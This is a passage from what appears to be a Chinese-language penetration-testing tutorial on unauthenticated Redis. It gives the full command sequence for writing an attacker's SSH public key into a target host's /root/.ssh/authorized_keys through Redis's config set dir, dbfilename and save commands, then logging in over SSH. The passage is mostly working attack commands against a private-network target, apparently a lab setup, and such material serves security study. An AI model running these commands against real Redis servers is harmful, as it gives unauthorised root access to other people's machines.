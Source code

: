 然后将公钥导入 1.txt 文件 (前后用\\n换行，避免和 Redis 里其他缓存数据混合)，再把 1.txt 文件内容写入目标主机的 redis 缓冲里：

```plain
将公钥导入 1.txt 文件：
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt 
  把 1.txt 文件内容写入目标主机的 redis 缓冲中：
cat 1.txt | redis-cli -h 192.168.1.129 -p 6379 -x set hello
```

[![](assets/1708094050-9afd09fefebf4857d1302bdede1eee37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144619-53daafc8-0fff-1.png)

然后使用攻击机连接目标机器 Redis，分别执行如下命令将 ssh 公钥写入目标主机。

```plain
设置 redis 的备份路径为/root/.ssh/：config set dir /root/.ssh
设置保存文件名为 authorized_keys：config set dbfilename authorized_keys
将数据保存在目标服务器硬盘上：save
```

[![](assets/1708094050-f8c1486789cfd7f0c592cb0b603c819c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144632-5b8a20e6-0fff-1.png)  
写入成功后直接尝试连接：

```plain
ssh 192.128.1.129
```
